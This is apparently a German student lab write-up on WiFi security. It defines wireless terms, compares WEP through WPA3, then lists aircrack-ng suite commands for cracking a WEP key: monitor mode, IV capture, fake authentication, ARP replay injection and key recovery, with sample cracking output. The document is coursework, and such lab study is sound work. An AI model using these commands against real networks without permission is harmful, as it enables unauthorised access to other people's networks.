


# Wifi security

## Terminologie

- BSSID: Basic Service Set Identifier

> Identifiziert einen Router / AP eindeutig in einem Funknetz

- SSID: Service Set Identifier

> Identifiziert ein Funknetz (also der Name des WLAN-Netzwerks)

- Channel

> Frequenzband auf dem das WLAN-Netzwerk sendet (Funkkanal - meistens wird in 2.4 und 5 GHz unterschieden)

- Beacons

> Pakete, die von einem Router / AP gesendet werden, um sich im Netzwerk zu identifizieren bzw. die Anwesenheit bekannt
> zu geben. Solche Beacons werden benötigt, damit ein Smartphone ein WLAN Netzwerk finden kann.

- Encryption
> Verschlüsselung des Netzwerkverkehrs, um diesen vor unbefugtem Zugriff zu schützen (Klartext -> Random Zeichen)

- Cipher
> Verschlüsselungsalgorithmus, der verwendet wird, um den Netzwerkverkehr zu verschlüsseln

- Authentication
> Authentifizierung des Clients gegenüber dem Router / AP, um Zugriff auf das Netzwerk zu erhalten (Client ist befugt)

- Empfangsstärke (dBm)
> Signalstärke des WLAN-Signals, die in Dezibel Milliwatt gemessen wird


## Verschlüsselungen

- Wired Equivalent Privacy (WEP)
> 64 und 128 bit Verschlüsselung des Netzwerkverkehrs, wobei jedoch statische Schlüssel verwendet werden, die leicht
  zu
> knacken sind.
- Wi-Fi Protected Access (WPA)
> Jedes Paket wird mit einem eigenen Schlüssel verschlüsselt, sowie Integritätschecks durchgeführt - um einen "eigens erstellten" bzw. veränderten Schlüssel zu identifizieren.
- Wi-Fi Protected Access II (WPA2)
> Basiert auf AES (Advanced Encryption Standard) und hat somit einen solideren Verschlüsselungsalgorithmus, sowie zwei Modi: Personal und Enterprise, wobei entweder PSKS (Passwörter) oder Authentication Server (z.B. RADIUS) verwendet werden können.
- Wi-Fi Protected Access III (WPA3)
> Basiert auf Simultaneous Authentication of Equals (SAE) mit GMC Verschlüsselung und ersetzt WPA2, sowie längere Schlüssel und Schutz vor Brute-Force Attacken

## Informationen über Netzwerke ohne Zugang sammelnx
- Generelle Informationen aus Beacon Frames auslesen: SSID, BSSID, Channel, Signalstärke, Verschlüsselung, etc.

## Angriff

### Interface vorbereiten
- Interfaces wurden mit `iwconfig` gelisted und das WLAN-Interface somit gefunden
- Da noch nicht im Monitor, wurde der Adapter mit folgendem Befehl gestartet: `airmon-ng start wlan0mon 10` (hier einfach mal Kanal 10 verwendet)

### Beacon-Informationen auslesen
- Auslesen der Informationen (BSSID; Channel) mit folgendem Befehl: `airodump-ng wlan0mon`

### Auslesen und speichern der Initialisierungsvektoren (IVS)
- Mit folgendem Befehl werden die IVS gespeichert: ` airodump-ng -c 10 --bssid [BSSID des anzugreifenden Routers] -w output wlan0mon`
- Eine Fake Authentication mit folgendem Befehl funktioniert auch:  `aireplay-ng -1 0 -e "WIFI Network (die SSID des zu knackenden Netzwerks)" -a  [BSSID des anzugreifenden Routers] -h  [MAC Adresse der Netzwerkkarte] wlan0mon`

- Durch einen ARP Replay können weitere ARPs ins Netzwerk gegeben werden: `aireplay-ng -3 -b  [BSSID des anzugreifenden Routers] -h [MAC Adresse der Netzwerkkarte] wlan0mon`
### Knacken des Keys:
- Der Key kann mit folgendem Befehl ausgelesen werden:  `aircrack-ng -b [BSSID des anzugreifenden Routers] (dateiname).cap`


(Copy pasta von https://www.aircrack-ng.org/doku.php?id=simple_wep_crack, da der PC *vor* dem Screenshot ausgemacht wurde)
```

                                              Aircrack-ng 0.9
 
 
                              [00:03:06] Tested 674449 keys (got 894 IVs)
 
 KB    depth   byte(vote)
  0    0/  9   12(  15) F9(  15) 47(  12) F7(  12) FE(  12) 1B(   5) 77(   5) A5(   3) F6(   3) 03(   0) 
  1    0/  8   34(  61) E8(  27) E0(  24) 06(  18) 3B(  16) 4E(  15) E1(  15) 2D(  13) 89(  12) E4(  12) 
  2    0/  2   56(  87) A6(  63) 15(  17) 02(  15) 6B(  15) E0(  15) AB(  13) 0E(  10) 17(  10) 27(  10) 
  3    1/  5   78(  43) 1A(  20) 9B(  20) 4B(  17) 4A(  16) 2B(  15) 4D(  15) 58(  15) 6A(  15) 7C(  15)
```


> Dieser Schritt konnte nicht ausgeführt werden, da aufgrund technischer Probleme kein Traffic im Router generiert werden konnte, und somit keine IVs ausgelesen wurden (ca 400-800, viel zu wenig). Die Tutoren sagten, dass die Abgabe aber trotzdem zulässig sei.